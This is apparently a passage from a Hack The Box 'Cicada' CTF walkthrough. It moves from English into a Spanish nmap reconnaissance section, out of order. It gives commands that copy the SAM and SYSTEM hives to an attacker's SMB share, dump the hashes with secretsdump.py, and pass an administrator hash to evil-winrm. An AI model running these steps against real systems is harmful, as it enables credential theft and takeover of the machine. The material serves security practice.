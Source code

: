 And from the victim machine we run the following commands.

```powershell
copy C:\temp\sam \\tu_ip\smbFolder\sam
copy C:\temp\system \\tu_ip\smbFolder\system

```
With the SAM and SYSTEM files in our machine we can get the hashes of the users with the tool **secretsdump.py** of impacket.

```sh
python3 secretsdump.py -sam sam -system system LOCAL
```
![Pic]({{ '/assets/img/cicada/12pic.png' | relative_url }}){: .center-image }

Finally, with the NT part of the hash of the user administrator we can connect with evil-winrm.

```sh
evil-winrm -i 10.10.11.35 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```

![Pic]({{ '/assets/img/cicada/14pic.png' | relative_url }}){: .center-image }

## Reconocimiento

Esta máquina pertenece a la temporada 6 de Hack The Box, y aunque ya haya acabado, estas máquinas están disponibles para seguir practicando y aprendiendo.<br>
<br>
Como siempre, para comenzar lanzaremos un escaneo de puertos para identificar los servicios que corren en la máquina.

```sh
nmap -p- --open -sS --min-rate 5000 -n -v -Pn 10.10.11.35 -oN IScan
```
-     &nbsp;&nbsp;&nbsp;-p- &nbsp; Indica todo el rango de puertos (1-65535)<br>
-     &nbsp;&nbsp;&nbsp;--open   &nbsp;Únicamente muestra los puertos abiertos<br>
-     &nbsp;&nbsp;&nbsp;-sS  &nbsp;Hace un escaneo "SYN", más sigiloso<br>
- &nbsp;&nbsp;&nbsp;--min-rate 5000 &nbsp;Envía paquetes no más lentos de los indicados<br>
-     &nbsp;&nbsp;&nbsp;-n &nbsp;No aplica resolución DNS<br>
-     &nbsp;&nbsp;&nbsp;-v &nbsp;Muestra lo que encuentra en tiempo real (verbose)<br>
- &nbsp;&nbsp;&nbsp;    -Pn &nbsp;Da por hecho que los hosts están activos<br>
-   &nbsp;&nbsp;&nbsp;  -oN IScan &nbsp;Guarda el output en el formato mostrado, en ese archivo<br>


![FirstPic]({{ '../assets/img/cicada/1pic.png' | relative_url }}){: .center-image }

Ahora nos interesa averiguar la versión de cada uno de estos servicios y de paso probar algunos scripts de reconocimiento.

```sh
nmap -sCV -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,58625 10.10.11.35 -oN SScan
```
- &nbsp;&nbsp;&nbsp;-sCV &nbsp;Comprueba la versión y prueba unos scripts de reconocimiento<br>
- &nbsp;&nbsp;&nbsp;-p &nbsp;Indica los puertos a escanear
![1Pic]({{ '../assets/img/cicada/2pic.png' | relative_url }}){: .center-image }
